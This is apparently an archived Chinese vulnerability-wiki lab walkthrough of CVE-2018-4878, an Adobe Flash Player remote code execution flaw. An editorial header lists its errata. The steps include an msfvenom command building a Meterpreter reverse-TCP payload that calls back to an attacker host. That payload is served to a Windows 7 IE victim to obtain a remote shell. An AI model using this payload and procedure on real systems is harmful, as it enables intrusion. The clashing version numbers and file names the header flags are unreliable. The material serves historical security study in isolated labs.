










# （CVE-2018-4878）Adobe Flash Player 远程代码执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Adobe Flash Player / IE on Windows7
- 文献类型：Flash历史利用实验
- 版本、权限及部署边界：Win7SP1/IE需Flash插件；影响<=28.0.0.137，步骤安装.126，但环境附件名.161；用户访问恶意页面
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 环境写28.0.0.161与影响<=.137及后文.126冲突，应核真实使用包，不能同时称受影响版本
2. 编辑CVE-2018-4878.py后执行CVE-2018-4878-master.py文件名不一致，且仅本地zip名称无下载来源/源码提交
3. 关键替换载荷/资源路径/监听参数全图片，缺浏览器/插件架构与测试build；图片未视检
4. 每张相对图后残余重复路径，Pandoc html空块/kail/sehll等版式/拼写噪声
5. 无Adobe/KCERT/Talos源链接和具体修复版本，历史软件已停服应作隔离研究资料而非当前安装指南

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

（CVE-2018-4878）Adobe Flash Player 远程代码执行漏洞
====================================================

一、漏洞简介
------------

2018年1月31日，韩国CERT发布公告称发现Flash
0day漏洞的野外利用，攻击者执行针对性的攻击；2月1日Adobe发布安全公告，确认Adobe
Flash Player 28.0.0.137
及早期版本存在远程代码执行漏洞（CVE-2018-4878）；2月2日，Cisco
Talos团队发布了事件涉及攻击样本的简要分析；2月7日，Adobe发布了CVE-2018-4878漏洞的安全补丁。

二、漏洞影响
------------

Adobe Flash Player \<= 28.0.0.137

三、复现过程
------------

-   1.环境    kail: `192.168.184.128`    win7sp1: `192.168.184.131`    exp: `CVE-2018-4878-master.zip `    flash: `AdobeFlashPlayer28.0.0.161正式版.zip`
-   2.利用msfvenom生成对应的shellcode代码

```{=html}
<!-- -->
```
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.184.128 lport=4444 -f python>shellcode.txt

AdobeFlashPlayer远程代码执行漏洞/media/rId24.png)

-   3.进入 CVE-2018-4878-master
    目录，编辑`CVE-2018-4878.py`文件，将msfvenom生成的代码覆盖掉原来的代码

AdobeFlashPlayer远程代码执行漏洞/media/rId25.png)

-   4.修改 swf 文件及 html 文件位置

AdobeFlashPlayer远程代码执行漏洞/media/rId26.png)

-   5.Python 执行 CVE-2018-4878-master.py 代码，会生成两个文件，一个 swf
    文件，一个 html 文件

AdobeFlashPlayer远程代码执行漏洞/media/rId27.png)

-   6.把生成的两个文件放到apache web目录下

AdobeFlashPlayer远程代码执行漏洞/media/rId28.png)

-   7.通过msf开启反弹sehll监听

AdobeFlashPlayer远程代码执行漏洞/media/rId29.png)

-   8.靶机上win7安装存在漏洞的adobe flash player 28.0.0.126

AdobeFlashPlayer远程代码执行漏洞/media/rId30.png)

-   9.通过win7自带的ie浏览器进行访问`192.168.184.128/index2.html`

AdobeFlashPlayer远程代码执行漏洞/media/rId31.png)

-   10.Kail上成功获取到meterpreter shell

AdobeFlashPlayer远程代码执行漏洞/media/rId32.png)

AdobeFlashPlayer远程代码执行漏洞/media/rId33.png)
